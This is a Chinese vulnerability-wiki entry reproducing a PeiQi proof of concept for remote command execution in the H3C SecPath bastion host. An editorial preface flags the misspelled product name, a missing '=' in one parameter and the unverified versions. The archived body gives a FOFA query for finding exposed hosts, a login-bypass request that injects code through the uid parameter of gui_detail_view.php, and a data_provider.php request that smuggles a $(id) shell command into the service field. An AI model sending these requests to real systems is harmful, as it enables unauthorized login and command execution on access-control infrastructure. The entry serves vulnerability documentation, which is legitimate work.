





# H3C SecParh 堡垒机 data provider-php 远程命令执行漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：H3C SecPath堡垒机
- 文献类型：简要链式PoC转载
- 版本、权限及部署边界：需有效后台Cookie，或先利用gui_detail_view任意用户登录；版本未知
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 与misc208正文两条payload及说明相同，属于近重复；本篇有原公众号追溯，208本地资源更稳定，合并保留二者来源
2. SecParh拼错应核实SecPath；齐治只是类似产品不能直接视为受影响
3. data_provider本身是认证后命令注入，gui_detail_view绕过为独立前置漏洞，不要笼统记未授权RCE
4. ds_min40缺等号、Cookie继承步骤没有原始HTTP；版本/补丁/输出文本缺失，图片未视检

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://mp.weixin.qq.com/s/rt8lJaLUTVuZd187zrruMw>
- 原文参考链接（未重新核验）：<http://ksria.com/simpread/>
- 原文参考链接（未重新核验）：<http://wiki.peiqi.tech**>
- 原文参考链接（未重新核验）：<https://github.com/PeiQi0/PeiQi-WIKI-POC**>
- 原文参考链接（未重新核验）：<https://github.com/MrWQ/vulnerability-paper>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/rt8lJaLUTVuZd187zrruMw)


****

**一****：漏洞描述🐑**

**H3C SecParh 堡垒机 data_provider.php 存在远程命令执行漏洞，攻击者通过任意用户登录或者账号密码进入后台就可以构造特殊的请求执行命令**

**漏洞类似于齐治堡垒机  
**

**二:  漏洞影响🐇**

**H3C SecParh 堡垒机**

**三:  漏洞复现🐋**

```
app="H3C-SecPath-运维审计系统"
```

**登录页面如下**



**先通过任意用户登录获取 Cookie**

```
/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin
```



```
/audit/data_provider.php?ds_y=2019&ds_m=04&ds_d=02&ds_hour=09&ds_min40&server_cond=&service=$(id)&identity_cond=&query_type=all&format=json&browse=true
```



 ****四:  关于文库🦉****

 **在线文库：**

**http://wiki.peiqi.tech**

 **Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**



最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐

公众号

**同时知识星球也开放运营啦，希望师傅们支持支持啦🐟**

**知识星球里会持续发布一些漏洞公开信息和技术文章~**


**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**

**PeiQi 文库 拥有对此文章的修改和解释权如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。**

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
